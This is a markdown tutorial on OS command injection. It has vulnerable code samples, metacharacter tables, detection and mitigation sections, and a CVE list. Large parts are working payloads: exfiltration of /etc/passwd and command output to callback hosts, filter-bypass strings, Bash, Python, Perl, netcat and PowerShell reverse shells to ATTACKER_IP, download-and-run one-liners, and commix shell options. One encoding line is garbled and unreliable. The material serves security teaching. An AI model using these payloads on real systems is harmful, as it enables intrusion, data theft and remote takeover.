

# OS Command Injection

> **OS command injection lets an attacker run arbitrary operating system commands on the web server by injecting shell metacharacters into input the application passes to a system shell.**

---

## 🧠 What Is It? (Beginner Explanation)

Some web apps run OS commands to do things like:
- Ping an IP address to check if it's alive
- Convert an image with ImageMagick
- Send an email with sendmail
- Look up a WHOIS record

They might do it like this in PHP:

```php
$output = shell_exec("ping -c 1 " . $_GET['host']);
```

If you pass `host=8.8.8.8`, it runs `ping -c 1 8.8.8.8`. Normal.  
If you pass `host=8.8.8.8; cat /etc/passwd`, it runs `ping -c 1 8.8.8.8; cat /etc/passwd`.  
The shell executes both commands. You just got code execution.

---

## 🏗️ How It Works (Technical Deep Dive)

### How Web Apps Execute OS Commands

```php
// PHP functions that execute OS commands
shell_exec("command");
exec("command", $output);
system("command");
passthru("command");
popen("command", "r");
`command`;              // backtick operator

// Example vulnerable code
$filename = $_POST['filename'];
shell_exec("convert " . $filename . " output.png");
// Inject: test.jpg; id > /tmp/pwned.txt
```

```python
# Python
import os, subprocess
os.system("ping -c 1 " + user_input)
subprocess.call("ping -c 1 " + user_input, shell=True)  # shell=True is the danger
os.popen("nslookup " + user_input)

# Safe version:
subprocess.call(["ping", "-c", "1", user_input])  # List form - no shell
```

```javascript
// Node.js
const { exec } = require('child_process');
exec('ls ' + user_input, callback);                    // DANGEROUS
exec(`convert ${filename} output.png`, callback);      // DANGEROUS

// Safe:
execFile('/bin/ls', [user_input], callback);           // Safe, no shell
```

---

## 📊 Diagram



---

## ⚙️ Technical Details

### Shell Metacharacters Reference

#### Linux / Unix

| Character | Name | Behavior | Example |
|-----------|------|----------|---------|
| `;` | Semicolon | Run commands sequentially | `cmd1; cmd2` |
| `\|` | Pipe | Output of cmd1 becomes input of cmd2 | `cmd1 \| cmd2` |
| `&` | Background | Run cmd2 in background | `cmd1 & cmd2` |
| `&&` | AND | Run cmd2 only if cmd1 succeeds | `cmd1 && cmd2` |
| `\|\|` | OR | Run cmd2 only if cmd1 fails | `cmd1 \|\| cmd2` |
| `` ` ` `` | Backtick | Command substitution | `` `cmd` `` |
| `$()` | Dollar-paren | Command substitution | `$(cmd)` |
| `\n` | Newline | Sometimes treated as command separator | `cmd1%0acmd2` |
| `>` | Redirect | Write output to file | `cmd > file` |
| `>>` | Append | Append output to file | `cmd >> file` |
| `<` | Input | Read from file | `cmd < file` |

#### Windows

| Character | Behavior | Example |
|-----------|----------|---------|
| `&` | Run both commands | `cmd1 & cmd2` |
| `&&` | Run cmd2 if cmd1 succeeds | `cmd1 && cmd2` |
| `\|` | Pipe | `cmd1 \| cmd2` |
| `\|\|` | Run cmd2 if cmd1 fails | `cmd1 \|\| cmd2` |
| `^` | Escape next char | `wh^o^am^i` |
| `;` | NOT a separator in cmd.exe | N/A |
| `\r\n` | Line break in batch | `cmd1\r\ncmd2` |

---

## 🔴 Attack Surface & Exploitation

### Injection in Different Contexts

```bash
# URL parameter
GET /ping?host=8.8.8.8;id HTTP/1.1
GET /ping?host=8.8.8.8|id HTTP/1.1
GET /ping?host=8.8.8.8%20%26%26%20id HTTP/1.1   # URL encoded &&

# POST body
POST /convert HTTP/1.1
filename=test.jpg;id

# HTTP Headers
User-Agent: ; id
X-Forwarded-For: 127.0.0.1; id
# Some apps log these and process them

# File names (upload functionality)
filename=malicious;id.jpg

# Other headers that might be processed
X-Real-IP: 127.0.0.1;id
Host: victim.com;whoami
```

---

## 💥 Payloads & Examples

### Basic Detection Payloads

```bash
# Try all separators - check which one gives a response
;id
|id
`id`
$(id)
&&id
||id
;id;
|id|
;id%00           # Null byte (may truncate rest of input)
%0aid            # URL-encoded newline

# Windows
&whoami
|whoami
&&whoami
||whoami
```

### Blind Command Injection: Time Delays

```bash
# Linux
; sleep 10
| sleep 10
`sleep 10`
$(sleep 10)
&& sleep 10
|| sleep 10
; ping -c 10 127.0.0.1

# Windows
& ping -n 10 127.0.0.1
| timeout 10
& timeout /T 10 /NOBREAK
& ping -n 10 127.0.0.1 > NUL
```

### Blind Command Injection: Out-of-Band via DNS

```bash
# Linux - DNS exfiltration (use Burp Collaborator or interactsh)
; nslookup `whoami`.COLLABORATOR_URL
; nslookup $(whoami).COLLABORATOR_URL
; curl http://COLLABORATOR_URL/`whoami`
; wget http://COLLABORATOR_URL/`id`

# Exfiltrate file content via DNS (encode to avoid invalid chars)
; nslookup $(cat /etc/passwd | base64 | tr -d '\n' | cut -c1-50).COLLABORATOR_URL

# Windows DNS
& nslookup %COMPUTERNAME%.COLLABORATOR_URL
& for /f "tokens=*" %a in ('whoami') do nslookup %a.COLLABORATOR_URL

# Linux HTTP callback
; curl http://COLLABORATOR_URL/?output=$(id | base64)
; wget "http://COLLABORATOR_URL/?data=$(cat /etc/passwd | base64 -w0)"
```

### Blind Command Injection: Write to File

```bash
# Write output to file accessible via web
; id > /var/www/html/output.txt
; whoami > /var/www/html/$(date +%s).txt

# Then read: GET /output.txt
```

### Filter Bypass Techniques

```bash
# IFS (Internal Field Separator) instead of spaces
cat${IFS}/etc/passwd
cat${IFS}${IFS}/etc/passwd
id;cat${IFS}/etc/passwd

# Brace expansion (no spaces needed)
{cat,/etc/passwd}
{id,}
{ls,-la,/}

# Single and double quotes in command (shell ignores them)
c'at' /etc/passwd
c"at" /etc/passwd
ca''t /etc/passwd
who$()ami                     # Empty $() expands to nothing

# Base64 decode and execute
echo "Y2F0IC9ldGMvcGFzc3dk" | base64 -d | bash
$(echo "id" | base64 -d)

# Hex decode
$(printf '\x69\x64')          # Executes 'id'

# Wildcard characters
/???/??swd                    # Matches /etc/passwd
/bin/c?t /etc/p?sswd

# Variable manipulation
A=id;$A
X=ca;Y=t;$X$Y /etc/passwd

# Newline as separator (when ; is filtered)
id%0awhoami
id$'\n'whoami

# $PATH tricks
${PATH:0:1}etc${PATH:0:1}passwd    # / = first char of PATH
echo ${PATH:0:1}                    # Should be /

# \n in double quotes
id$'\n'cat /etc/passwd
```

### Filter Bypass: Encoding

```bash
# URL encode the separator
;id     →  %3Bid
|id     →  %7Cid
&&id    →  %26%26id

# Double URL encode (if server decodes twice)
;id     →  %253Bid

# Unicode encode
;       →  %EF%BC%9B   (full-width semicolon ；)
|       →  %EF½BC%9C   (full-width pipe ｜)
```

---

## 🐚 From Injection to Reverse Shell

### Linux Reverse Shell Payloads

```bash
# Start listener
nc -lvnp 4444

# Bash reverse shell (most reliable)
bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1

# URL-encoded bash reverse shell for injection:
bash%20-i%20>%26%20/dev/tcp/ATTACKER_IP/4444%200>%261

# With injection separator:
; bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1

# Python reverse shell
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKER_IP",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'

# Netcat (classic)
nc -e /bin/bash ATTACKER_IP 4444

# Netcat (if -e not available)
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc ATTACKER_IP 4444 >/tmp/f

# Perl
perl -e 'use Socket;$i="ATTACKER_IP";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

# curl-based (if nc/bash not available)
curl https://attacker.com/shell.sh | bash
```

### Windows Reverse Shell Payloads

```powershell
# PowerShell reverse shell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command "& {$client = New-Object System.Net.Sockets.TCPClient('ATTACKER_IP',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()}"

# Shorter PowerShell download and execute
powershell -ep bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://ATTACKER_IP/shell.ps1')"

# cmd.exe certutil download
certutil -urlcache -split -f http://ATTACKER_IP/nc.exe C:\Windows\Temp\nc.exe && C:\Windows\Temp\nc.exe -e cmd.exe ATTACKER_IP 4444
```

---

## 🪟 Windows-Specific Command Injection

```batch
REM Windows cmd.exe
& whoami
& net user
& systeminfo
& dir C:\
& type C:\Windows\win.ini
& type C:\inetpub\wwwroot\web.config

REM Windows variable expansion tricks (bypass filters)
w^h^o^a^m^i      # ^ escapes each char but shell ignores ^
wh""oami          # "" ignored inside double-quoted context

REM PowerShell via injection
& powershell -c "Get-Process"
& powershell -EncodedCommand <base64>
```

---

## 🔧 Commix Tool

```bash
# Install
git clone https://github.com/commixproject/commix.git
cd commix

# Basic scan
python3 commix.py --url="http://target.com/?host=INJECT_HERE"

# POST data
python3 commix.py --url="http://target.com/ping" --data="host=INJECT_HERE"

# Specify injection marker explicitly
python3 commix.py --url="http://target.com/ping?host=127.0.0.1" --level=3

# With cookie
python3 commix.py --url="http://target.com/?host=INJECT_HERE" --cookie="session=abc123"

# OS shell
python3 commix.py --url="http://target.com/?host=INJECT_HERE" --os-shell

# Reverse shell
python3 commix.py --url="http://target.com/?host=INJECT_HERE" --reverse-shell

# Specific technique
python3 commix.py --url="http://target.com/?host=INJECT_HERE" --technique=time   # Time-based
python3 commix.py --url="http://target.com/?host=INJECT_HERE" --technique=classic # Classic

# Burp request file
python3 commix.py -r request.txt

# Ignore WAF errors (403/500)
python3 commix.py --url="http://target.com/?host=INJECT_HERE" --ignore-code=403

# Filter bypass
python3 commix.py --url="http://target.com/?host=INJECT_HERE" --tamper=space2ifs
```

---

## 🔍 Detection

### Manual Testing Process

```
1. Identify inputs that trigger server-side processing
   - Network diagnostic tools (ping, traceroute, nslookup)
   - File processing (convert, compress, resize)
   - Report generation
   - Any feature that seems to "do something" on the server

2. Test with time delay first (blind-safe):
   ; sleep 5
   & ping -c 5 127.0.0.1
   Measure response time — if it delays by ~5s, injection works

3. Test with OOB exfil (safest for production):
   ; nslookup COLLABORATOR_SUBDOMAIN

4. Test in-band:
   ; id
   ; cat /etc/passwd
   | id
   `id`
   $(id)

5. Try all separators (some may be filtered)
```

---

## 🛡️ Mitigation

### Safe Code Patterns

```python
# UNSAFE - shell=True passes to shell
import subprocess
subprocess.call("ping -c 1 " + user_input, shell=True)

# SAFE - list form, no shell interpretation
subprocess.call(["ping", "-c", "1", user_input])

# SAFE - validate input strictly
import re
if not re.match(r'^[a-zA-Z0-9.]+$', user_input):
    raise ValueError("Invalid hostname")
subprocess.call(["ping", "-c", "1", user_input])
```

```php
// UNSAFE
shell_exec("ping -c 1 " . $_GET['host']);

// SAFE - escapeshellarg wraps in quotes and escapes special chars
$host = escapeshellarg($_GET['host']);
shell_exec("ping -c 1 " . $host);

// BETTER - validate first
if (!filter_var($_GET['host'], FILTER_VALIDATE_IP)) {
    die("Invalid IP");
}
shell_exec("ping -c 1 " . escapeshellarg($_GET['host']));

// BEST - avoid shell entirely, use PHP native functions
// e.g., use PHP's socket or curl instead of shell commands
```

```javascript
// Node.js UNSAFE
const { exec } = require('child_process');
exec('ls ' + userInput);

// Node.js SAFE - use execFile (no shell)
const { execFile } = require('child_process');
execFile('/bin/ls', [userInput], callback);

// Or use native Node.js fs module instead
const fs = require('fs');
fs.readdir(path, callback);
```

### Principle of Least Privilege

```bash
# Web server should run as low-privilege user
# Check who the web server runs as
ps aux | grep apache
ps aux | grep nginx
ps aux | grep www-data

# If running as root = catastrophic on RCE
# Should run as www-data, nginx, apache with minimal filesystem permissions
```

---

## 📋 Real CVE Examples

| CVE | Application | Vector | Impact |
|-----|-------------|--------|--------|
| CVE-2021-41773 | Apache HTTP Server 2.4.49 | Path traversal → RCE | Remote code execution |
| CVE-2018-15473 | OpenSSH | User enumeration side-channel | Info disclosure |
| CVE-2014-6271 | GNU Bash (Shellshock) | Env variable injection | RCE across millions of servers |
| CVE-2021-22204 | ExifTool < 12.24 | DjVu metadata command injection | RCE via file upload |
| CVE-2020-10199 | Nexus Repository | El injection → command injection | RCE |
| CVE-2022-42889 | Apache Commons Text (Text4Shell) | String interpolation | RCE |
| CVE-2017-5638 | Apache Struts 2 | Content-Type header injection | RCE (Equifax breach) |

---

## 📚 References

- [PortSwigger OS Command Injection](https://portswigger.net/web-security/os-command-injection)
- [OWASP Command Injection](https://owasp.org/www-community/attacks/Command_Injection)
- [PayloadsAllTheThings Command Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection)
- [Commix GitHub](https://github.com/commixproject/commix)
- [RevShells Generator](https://www.revshells.com/)
- [GTFOBins - Linux binary abuse](https://gtfobins.github.io/)
- [LOLBAS - Windows binary abuse](https://lolbas-project.github.io/)
